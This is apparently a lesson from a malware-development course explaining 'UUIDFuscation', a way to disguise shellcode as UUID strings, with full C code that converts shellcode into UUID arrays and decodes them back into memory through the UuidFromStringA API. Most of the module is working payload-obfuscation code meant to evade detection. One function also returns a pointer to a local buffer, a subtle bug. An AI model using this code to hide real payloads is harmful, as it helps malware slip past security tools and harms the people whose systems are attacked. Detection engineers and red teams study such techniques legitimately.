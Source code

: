 23. Payload Obfuscation - UUIDFuscation[**23. Payload Obfuscation - UUIDFuscation**](https://maldevacademy.com/modules/23)
===================================================================================

**Payload Obfuscation - UUIDFuscation**
---------------------------------------

### **Introduction**

In this module, another obfuscation technique is covered which converts shellcode to a Universally Unique IDentifier (UUID) string. UUID is a 36-character alphanumeric string that can be used to identify information.

### **UUID Structure**

The UUID format is made up of 5 segments of different sizes which look something like this: `801B18F0-8320-4ADA-BB13-41EA1C886B87`. The image below illustrates the UUID structure.

[![](23%20Payload%20Obfuscation%20-%20UUIDFuscation%201c2f59cabc354005973cf3e7692586c7/uuid.png)](23%20Payload%20Obfuscation%20-%20UUIDFuscation%201c2f59cabc354005973cf3e7692586c7/uuid.png)Converting UUID to shellcode is a little less straightforward than the previous obfuscation methods. For example `FC 48 83 E4 F0 E8 C0 00 00 00 41 51 41 50 52 51` does **not** translate into `FC4883E4-F0E8-C000-0000-415141505251`, instead, it becomes `E48348FC-E8F0-00C0-0000-415141505251`.

Notice that the first 3 segments are using the same bytes in our shellcode but the order is in reverse. The reason is that the first three segments use [little-endian](https://en.wikipedia.org/wiki/Endianness) byte ordering. To ensure complete understanding, the segments are broken down below.

### **Little Endian**

* Segment 1: `FC 48 83 E4` becomes `E4 83 48 FC` in the UUID string
* Segment 2: `E8 F0` becomes `F0 E8` in the UUID string
* Segment 3: `C0 00` becomes `00 C0` in the UUID string

### **Big Endian**

* Segment 4: `00 00` becomes `00 00` in the UUID string
* Segment 5: `41 51 41 50 52 51` becomes `41 51 41 50 52 51` in the UUID string

### **UUIDFuscation Implementation**

A UUID address is made up of 16 bytes, therefore the shellcode should be a multiple of 16. UUIDFuscation will resemble IPv6Fuscation closely due to both requiring shellcode multiples of 16 bytes. Again, padding can be used if the shellcode doesn't meet that requirement.


```
// Function takes in 16 raw bytes and returns them in a UUID string format
char* GenerateUUid(int a, int b, int c, int d, int e, int f, int g, int h, int i, int j, int k, int l, int m, int n, int o, int p) {

	// Each UUID segment is 32 bytes
	char Output0[32], Output1[32], Output2[32], Output3[32];

	// There are 4 segments in a UUID (32 * 4 = 128)
	char result[128];

	// Generating output0 from the first 4 bytes
	sprintf(Output0, "%0.2X%0.2X%0.2X%0.2X", d, c, b, a);

	// Generating output1 from the second 4 bytes
	sprintf(Output1, "%0.2X%0.2X-%0.2X%0.2X", f, e, h, g);

	// Generating output2 from the third 4 bytes
	sprintf(Output2, "%0.2X%0.2X-%0.2X%0.2X", i, j, k, l);

	// Generating output3 from the last 4 bytes
	sprintf(Output3, "%0.2X%0.2X%0.2X%0.2X", m, n, o, p);

	// Combining Output0,1,2,3 to generate the UUID
	sprintf(result, "%s-%s-%s%s", Output0, Output1, Output2, Output3);

	//printf("[i] result: %s\n", (char*)result);
	return (char*)result;
}



// Generate the UUID output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateUuidOutput(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
	// If the shellcode buffer is null or the size is not a multiple of 16, exit
	if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 16 != 0) {
		return FALSE;
	}
	printf("char* UuidArray[%d] = { \n\t", (int)(ShellcodeSize / 16));

	// We will read one shellcode byte at a time, when the total is 16, begin generating the UUID string
	// The variable 'c' is used to store the number of bytes read. By default, starts at 16.
	int c = 16, counter = 0;
	char* UUID = NULL;

	for (int i = 0; i < ShellcodeSize; i++) {
		// Track the number of bytes read and when they reach 16 we enter this if statement to begin generating the UUID string
		if (c == 16) {
			counter++;

			// Generating the UUID string from 16 bytes which begin at i until [i + 15]
			UUID = GenerateUUid(
				pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3],
				pShellcode[i + 4], pShellcode[i + 5], pShellcode[i + 6], pShellcode[i + 7],
				pShellcode[i + 8], pShellcode[i + 9], pShellcode[i + 10], pShellcode[i + 11],
				pShellcode[i + 12], pShellcode[i + 13], pShellcode[i + 14], pShellcode[i + 15]
			);
			if (i == ShellcodeSize - 16) {

				// Printing the last UUID string
				printf("\"%s\"", UUID);
				break;
			}
			else {
				// Printing the UUID string
				printf("\"%s\", ", UUID);
			}
			c = 1;
			// Optional: To beautify the output on the console
			if (counter % 3 == 0) {
				printf("\n\t");
			}
		}
		else {
			c++;
		}
	}
	printf("\n};\n\n");
	return TRUE;
}

```
### **UUID Deobfuscation Implementation**

Although different segments have different endianness, that will not affect the deobfuscation process because the [UuidFromStringA](https://learn.microsoft.com/en-us/windows/win32/api/rpcdce/nf-rpcdce-uuidfromstringa) WinAPI takes care of this.


```
typedef RPC_STATUS (WINAPI* fnUuidFromStringA)(
	RPC_CSTR	StringUuid,
	UUID*		Uuid
);

BOOL UuidDeobfuscation(IN CHAR* UuidArray[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {

        PBYTE          pBuffer         = NULL,
                       TmpBuffer       = NULL;

        SIZE_T         sBuffSize       = NULL;

        RPC_STATUS     STATUS          = NULL;

	// Getting UuidFromStringA address from Rpcrt4.dll
	fnUuidFromStringA pUuidFromStringA = (fnUuidFromStringA)GetProcAddress(LoadLibrary(TEXT("RPCRT4")), "UuidFromStringA");
	if (pUuidFromStringA == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the real size of the shellcode which is the number of UUID strings * 16
	sBuffSize = NmbrOfElements * 16;

	// Allocating memory which will hold the deobfuscated shellcode
	pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sBuffSize);
	if (pBuffer == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Setting TmpBuffer to be equal to pBuffer
	TmpBuffer = pBuffer;

	// Loop through all the UUID strings saved in UuidArray
	for (int i = 0; i < NmbrOfElements; i++) {

		// Deobfuscating one UUID string at a time
		// UuidArray[i] is a single UUID string from the array UuidArray
		if ((STATUS = pUuidFromStringA((RPC_CSTR)UuidArray[i], (UUID*)TmpBuffer)) != RPC_S_OK) {
			// if it failed
			printf("[!] UuidFromStringA Failed At [%s] With Error 0x%0.8X", UuidArray[i], STATUS);
			return FALSE;
		}

		// 16 bytes are written to TmpBuffer at a time
		// Therefore Tmpbuffer will be incremented by 16 to store the upcoming 16 bytes
		TmpBuffer = (PBYTE)(TmpBuffer + 16);

	}

	*ppDAddress = pBuffer;
	*pDSize     = sBuffSize;

	return TRUE;
}

```
The image below shows the deobfuscation process successfully running.

[![](23%20Payload%20Obfuscation%20-%20UUIDFuscation%201c2f59cabc354005973cf3e7692586c7/uuidfuscation.png)](23%20Payload%20Obfuscation%20-%20UUIDFuscation%201c2f59cabc354005973cf3e7692586c7/uuidfuscation.png)


